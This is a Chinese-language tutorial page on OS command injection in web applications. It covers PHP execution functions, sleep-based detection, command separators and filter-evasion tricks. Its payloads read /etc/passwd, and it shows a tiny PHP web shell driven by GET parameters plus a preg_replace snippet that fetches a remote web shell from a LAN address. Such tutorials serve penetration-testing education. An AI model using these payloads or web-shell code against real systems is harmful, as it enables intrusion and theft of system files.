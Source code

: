 # 命令注入漏洞

&nbsp;

## 注入漏洞挖掘

### 【命令注入】

* 操作系统命令注入，它可以让攻击者可以在运行应用程序的服务器上执行任意的操作系统(Operating system)命令，并且通常会完全破坏应用程序及所有数据。攻击者通常可以利用OS命令注入漏洞来破坏托管基础结构的其它部分，利用信任机制将攻击转移到组织内的其它结构。

### 【注入原理】

* 命令注入不复杂也不难理解，核心就是利用特定的连接符，将攻击者注入的攻击命令拼接至已有的代码中触发执行
* PHP中可以执行代码的函数。
  ```
  如eval()、assert()、、system()、exec()、shell_exec()、passthru()、 escapeshellcmd()、pcntl_exec() 等
  ```
  system()：执行一个外部的应用程序并显示输出的结果
  exec()：执行一个外部的应用程序
  passthru()：执行一个UNIX系统命令并显示原始的输出
  shell_exec()：执行shell命令并返回输出的结果的字符串

### 【漏洞挖掘】

* 一般含有ping功能的网页中可能含有漏洞，或者有使用系统命令的地方
* 一般使用sleep探测是否含有命令注入漏洞
* 127.0.0.1;sleep 10 （执行完ping 127.0.0.1后，执行sleep 10，抓包发现ping完的包和下一发数据包有10秒的间隙，网站会暂停几秒后更新）

* **注入方法**
  * command1 ; command2（linux中分开命令之间的符号，不管前一个执行结果如何，两个命令都会执行）
  * command1 \n command2 （linux中的换行符，会执行两个命令，一般encode为%0a）
  * command1 & command2（先执行Command 1，不管是否成功，都会执行Command 2）
  * command1 && command2（与的逻辑，先执行Command 1，执行成功后执行Command 2，否则不执行Command 2）
  * command1 | command2（command1、command2都会执行 command1的标准输出作为command2的标准输入）
  * command1 | | command2（或的逻辑，如果command1 执行成功，则不执行command2;如果command1执行失败，则执行command2：）
  * command1${LS_COLORS:10:1}command2 （使用系统中的环境变量裁剪后得到命令分割符，${LS_COLORS:10:1}为；  ${PATH:0:1}为/   前提是$不会被过滤）

### 【bypass】

* **找替代命令bypass**
  cat:由第一行开始显示内容，并将所有内容输出
  tac:从最后一行倒序显示内容，并将所有内容输出
  more:根据窗口大小，一页一页的现实文件内容
  less:和more类似，但其优点可以往前翻页，而且进行可以搜索字符
  head:只显示头几行
  tail:只显示最后几行
  tailf:类似于tail –f
  paste:读取文件
  
* **空格过滤绕过**
  * 使用{IFS} 代替空格，cat{IFS}/etc/passwd
  * 有时可以使用tab来代替空格，%09就是tab键，cat%09/etc/passwd

* **关键字拼接绕过**
  ```bash
  a=ca;b=t;$a$b /etc/passwd
  ```
  
* **编解码bypass**
  * hex编解码绕过
  ```bash
  `echo -e '\x63\x61\x74' /etc/passwd`
  ```
  ```bash
  $(printf "\154\163")     ==> ls
  ```
  
  * base编解码绕过
  ```bash
  `echo Y2F0Cg==|base64 -d` /etc/passwd
  ```
  
  * 引号bypass
  ```bash
  kali@kali:~$ u'n'ame -a
  Linux kali 5.7.0-kali1-amd64
  ```
  
  * 通配符bypass
  ```bash
  cat /e?c/p*d
  ```
  
* **命令长度限制bypass**
  * 可以通过 >> 输出重定向，向一个.sh中多次追加写入绕过输入长度限制
  ```bash
  kali@kali:~$ echo 'cat /etc\' >> cmd.sh
  kali@kali:~$ echo '/passwd' >> cmd.sh
  kali@kali:~$ chmod +x cmd.sh
  kali@kali:~$ ./cmd.sh
  ```
  
* **动态代码执行**
  * http://127.0.0.1/x.php?a=system&b=ipconfig 执行系统命令ipconfig
  ```php
  <?php
  $a = $_GET['a'];
  $b= $_GET['b'];
  $a($b);
  ?>
  ```
  >分批传参往往比直接传参容易过掉waf

  * 除了正常代码执行函数外，也有不同情况可以执行代码，例如preg_replace()函数
  ```php
  <?php
  $a="m";
  $m=file_get_contents("http://192.168.0.110/1.txt");//加载远程大马
  preg_replace("/_/e",$$a,"_");
  ?>
  ```
  

&nbsp;

## 注入点的探测及回显问题

### 【重定向命令执行结果】


* gpadmin@cyberlabsz05-EC600G3-GE:~$ cat /etc/passwd > /tmp/passwd
gpadmin@cyberlabsz05-EC600G3-GE:~$ cat /tmp/passwd

>输出重定向到文件需要考虑路径和文件的写入权限问题，通常/tmp 是对于所有用户都有读写权限的。另外可以考虑将注入命令回显信息，写入到某个log文件中，通过前端的log日志下载/查看功能获取命令注入回显。



